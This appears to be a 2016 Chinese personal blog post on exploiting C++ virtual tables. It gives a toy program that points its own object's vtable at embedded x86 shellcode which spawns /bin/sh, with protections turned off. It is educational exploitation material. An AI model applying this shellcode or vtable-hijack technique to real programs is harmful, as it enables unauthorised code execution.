 ```yaml
---
title: pwning in c++
date: 2016-10-20 08:16:26
tags: 
- c++
- exploit
categories:
- misc_exploit
---
```


自从学了c++以来就几乎没有接触过了，除了在一年前看0day那本书时看过c++虚函数的攻击，但现在几乎不怎么记得了。
所以就记录一下pwning in c++吧。(不定时更新)

## virtual function table

关于[c++虚表](http://blog.csdn.net/haoel/article/details/1948051/):
1.实现多态。
1.虚表位于对象存储区域的开始处，所以可以很容易得到其地址。
2.只有使用对象指针或引用来调用虚函数时才会使用虚表调用的方式。
<!-- more -->
### analysis

下面写一段简单的代码来实现以下攻击虚表。

```c++
#include <iostream>
#include <unistd.h>
#include <string.h>

using namespace std;

char shellcode[] = "\x00\x00\x00\x00\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80";

class TestClass
{
public:
	char buf[40];
	virtual void test()
	{
		cout << "In TestClass::test()\n" << endl;
	}
};

TestClass overflow, *p;

int main()
{
	cout << "shellcode's address: " << &shellcode << endl;
	/*change as the correct shellcode's address*/
	shellcode[0] = 0x60;
	shellcode[1] = 0x9c;
	shellcode[2] = 0x04;
	shellcode[3] = 0x08;

	char *p_vtable;
	p_vtable = (char*)&overflow;  //point to virtual table
   
	p_vtable[0] = 0x5c;
	p_vtable[1] = 0x9c;
	p_vtable[2] = 0x04;
	p_vtable[3] = 0x08;

	p = &overflow;
	p->test();

	return 0;
}
```
在程序中我们把虚表的位置改为0x8049c5c，即全局变量shellcode的地址，然后把虚表里面存储的第一个地址改为变量shellcode后四个字节处，即真正的shellcode的位置，这样当p->test()时，并不是执行test()函数，而是执行shellcode。
执行效果如下：
<img src="http://of38fq57s.bkt.clouddn.com/vtable.PNG">
by default, DEP, ALSR, and stack protector are closed.

### conclusion

c++虚表主要用来hijacking，但实际不可能像我举得例子这么简单，一般会结合栈溢出，堆溢出等漏洞。感觉还是挺有用的。
